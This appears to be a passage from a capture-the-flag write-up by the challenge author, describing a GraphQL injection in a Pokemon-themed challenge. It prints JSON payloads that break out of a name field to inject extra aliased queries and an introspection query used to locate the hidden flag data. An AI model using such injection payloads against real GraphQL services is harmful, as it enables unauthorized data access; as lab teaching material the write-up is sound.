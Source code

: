 ```json
{
    "pokemons":["\") {id} _0:pokemon(name:\""],
    "compares":["id"]
}
```
The above payload actually crafts the following GraphQL query string (not the exact one but it works same as sending the above payload):
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    _0:pokemon(name:"") {
        id
    }
}
```

## Step 4: GraphQL introspection
Now we can insert anything we want. However, we don't know where `Flagmon` is. Therefore, we need to know how to query that out.

In order to know how, we can use [GraphQL's introspection](https://graphql.org/learn/introspection/) to do so.

After refering to the GraphQL introspection showcasing website, we can get something like this:
```json
{
    "pokemons":["\") {id} __type(name:\"Query\") { name fields { name type { name kind } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Query") {
        name
        fields {
            name
            type {
                name
                kind
            }
        }
    }
    _0:pokemon(name:"") {
        id
    }
}
```

[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.